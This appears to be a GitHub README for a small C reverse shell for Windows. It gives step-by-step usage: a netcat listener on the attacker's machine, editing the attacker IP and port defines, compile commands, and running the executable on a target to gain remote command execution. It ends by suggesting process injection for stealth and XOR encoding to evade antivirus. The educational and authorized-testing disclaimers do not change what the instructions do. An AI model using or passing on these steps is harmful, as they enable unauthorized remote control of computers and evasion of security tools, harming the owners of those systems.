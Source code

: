 Simple Reverse Shell in C
A minimal reverse shell written in C for Windows. The program establishes a TCP connection to a remote attacker's machine, redirecting cmd.exe input/output for remote control.

⚠ Warning: This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is illegal.




Features
✅ Connects to a remote listener (attacker's machine)
✅ Redirects standard input/output to the attacker's terminal
✅ Works on Windows (uses winsock2.h)
✅ Simple and lightweight (~10 KB compiled)

Usage
1. Start a Listener on the Attacker's Machine
Use Netcat (nc) to listen for incoming connections:


nc -lvnp 4444
🔹 Replace 4444 with the port number you plan to use.

2. Modify and Compile the Reverse Shell


Edit reverse_shell.c and change:

#define REMOTE_IP "192.168.1.100"  // Change to your attacker's IP
#define REMOTE_PORT 4444           // Change to your listening port
Compile using MinGW (GCC for Windows):


x86_64-w64-mingw32-gcc reverse_shell.c -o reverse_shell.exe -lws2_32
or using Microsoft Visual Studio:
cl reverse_shell.c ws2_32.lib


3. Run the Reverse Shell on the Target Machine
Execute the compiled reverse_shell.exe:


reverse_shell.exe
Once executed, the target machine will connect to the attacker's listener.

4. Get Control of the Target Machine
After the connection is established, the attacker's Netcat shell will allow remote command execution.

Code Explanation
The key parts of reverse_shell.c:

Winsock Initialization (WSAStartup())
Sets up Windows networking for socket communication.
Socket Connection (connect())
Connects to the attacker's IP and port.
I/O Redirection (CreateProcess())
Redirects standard input/output to the attacker's machine.
Cleanup (WSACleanup())
Ensures proper release of network resources.
Disclaimer


🚨 Legal Warning:
This software is provided for educational purposes only. Unauthorized use, hacking, or deploying this code on systems without permission is illegal and may result in severe penalties.

⚠ Use this tool only with explicit authorization from the target system owner.
By using this software, you agree that the authors are not responsible for any misuse or illegal activities.

Next Steps
🔹 Stealth Mode: Hide process execution using process injection.
🔹 Encoding: Evade antivirus detection using XOR encryption.
🔹 Portability: Modify for Linux/Mac compatibility.

